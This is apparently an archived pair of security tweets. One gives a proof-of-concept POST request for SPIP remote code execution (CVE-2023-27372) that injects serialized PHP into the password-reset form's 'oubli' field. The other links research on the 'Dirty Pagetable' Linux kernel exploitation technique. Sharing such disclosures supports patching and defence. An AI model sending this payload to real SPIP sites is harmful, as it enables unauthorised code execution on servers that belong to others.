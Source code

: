 
# momika233
**https://twitter.com/momika233/status/1678405071200047116 _at 2023-07-10, 14:05:26_**
<blockquote>
SPIP RCE CVE-2023-27372 #BugBounty 
Post:
hxxp://host/spip.php?page=spip_pass
data:
page=spip_pass&amp;formulaire_action=oubli&amp;formulaire_action_args=E1nK0hfOPllDtCUbG6L94SlEpZi7Vz17IKUbf0ZB6ET0WbEHeXrw9tNNCEWjm0ac0%2F4DuboKIZvygjRh&amp;oubli=s:19:"&lt;?php phpinfo(); ?&gt;";&amp;nobot=
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# NVamous
**https://twitter.com/NVamous/status/1678244404044374019 _at 2023-07-10, 03:27:00_**
<blockquote>
“Dirty Pagetable: A Novel Exploitation Technique To Rule Linux Kernel”
https://t.co/o4h3avhgBf
We succeeded in exploiting CVE-2023-21400 on Google pixel 7 with Dirty Pagetable. And we also pushed the exploitation of file UAF and pid UAF to the next level with Dirty Pagetable! https://t.co/JCy7Mblfc4
</blockquote>

* https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html

<table><tr>
<td><img src="pictures/c65fe0df680501ab027583c2c027d96c55aba6af1aef2557ebe23d8d66673105.jpg" alt="c65fe0df680501ab027583c2c027d96c55aba6af1aef2557ebe23d8d66673105.jpg"></td>
</table></tr>
<table><tr>